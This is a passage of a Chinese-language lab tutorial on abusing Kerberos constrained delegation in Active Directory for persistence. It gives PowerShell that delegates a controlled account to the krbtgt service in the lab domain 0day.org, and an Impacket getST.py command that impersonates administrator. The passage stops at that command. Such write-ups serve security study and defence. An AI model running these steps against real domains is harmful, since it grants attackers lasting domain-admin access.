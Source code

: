   
得到`ST1`之后，然后会带上 ST1 再次向`KDC`发起`SU42Proxy`请求，以`administrator`的名义请求一张访问`OWA2010SP3 cifs`服务的票据，ST2  

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8WZ2ZXgKbkfK6DEjegCZiaIfIB4AL9p8rD4UHLHBELMicickV7e09EcbDaiblEYla59EIHIUf8VGxkBg/640?wx_fmt=png)

利用约束性委派进行权限维持
-------------

  
我们都知道 TGT 的生成是由`krbtgt`用户加密和签名的，如果我们能委派域上的用户去访问`TGS`，那么就可以伪造任意用户的 TGT 了，黄金票据通常情况下我们是用`krbtgt`的 hash 来伪造 TGT，不过我们通过约束委派也能达到同样的效果。  

**注**：`TGS`默认的 spn 是`krbtgt/domain name`，我们操作环境是`krbtgt/QIYOU.COM`  
`krbtgt`默认是禁用的而且无法启用，所以我们无法使用界面来添加这个 SPN。  
我们可以使用 powershell 来添加

```
Import-Module ActiveDirectory$user = Get-ADUser test -Properties "msDS-AllowedToDelegateTo"Set-ADObject $user -Add @{ "msDS-AllowedToDelegateTo" = @("krbtgt/0day.org") }
```

  
我们控制的用户选择的是自己创建的 test 域用户。密码 Yicunyiye123  

• 域控：OWA2010SP3 192.168.200.146• 域：0day.org• 攻击机：Kali

  
首先修改 kali 的 / etc/hosts / 文件，添加如下内容  

```
192.168.200.146 0day.org192.168.200.146 OWA2010SP3
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8WZ2ZXgKbkfK6DEjegCZiaIHW0IDicriaiaIOFXpqDK5qicUwqYs1QCZZwfQWBKCtT5dibrhgtxrO7QULA/640?wx_fmt=png)

  
创建域用户 test 然后赋予 SPN  

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8WZ2ZXgKbkfK6DEjegCZiaIfpbmHtQyUgsyErxM7ia9OicLRuk7upzT3My6ZGDllibcABK4B5CWjXFZw/640?wx_fmt=png)

然后在域控上配置 test 用户到 krbtgt 用户的约束性委派。 

```
Import-Module ActiveDirectory$user = Get-ADUser test -Properties "msDS-AllowedToDelegateTo"Set-ADObject $user -Add @{ "msDS-AllowedToDelegateTo" = @("krbtgt/0day.org") }
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8WZ2ZXgKbkfK6DEjegCZiaIjUNu0EWRaDvaQicbgIZTGdGMy0DvhbsBWib4WaNXn6o8TQiayN3w2wwDg/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8WZ2ZXgKbkfK6DEjegCZiaI54wXgeIMUFAict4ZZ9IoVmKOVNH2c26traqic2BXeqtJSyf1hqcGzh7A/640?wx_fmt=png)

  
可以看到 test 账户具有委派性  

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8WZ2ZXgKbkfK6DEjegCZiaIyc2NRCG1nGibBSZRwrV72f1qNBWhEo4Q9xz8hTEZm0qY8LqxibzQTNDA/640?wx_fmt=png)

  
然后在 kali 上攻击  

```
python3 getST.py -dc-ip 192.168.200.146 -spn krbtgt/0day.org -impersonate administrator 0day.org/test:Yicunyiye123
```
